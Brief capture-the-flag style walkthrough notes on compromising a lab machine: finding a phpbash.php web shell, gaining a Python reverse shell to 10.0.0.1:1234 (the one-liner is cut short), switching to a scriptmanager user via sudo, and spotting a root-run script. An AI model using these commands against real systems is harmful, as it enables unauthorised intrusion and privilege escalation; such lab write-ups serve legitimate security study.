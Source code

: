 
# enumerated the http server, found the /dev directory which has phpbash.php file that runs shell codes

# gained shell using python reverse shell command 

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```

# www-data has sudo privileges which it can switch to scriptmanager

```shell
sudo -u scriptmanager /bin/bash
```

# /script directory on the machine has test.py and test.txt on where it seems like the python file was executed by root since it creates a file test.txt which was owned by root, test.py was owned by scriptmanager user

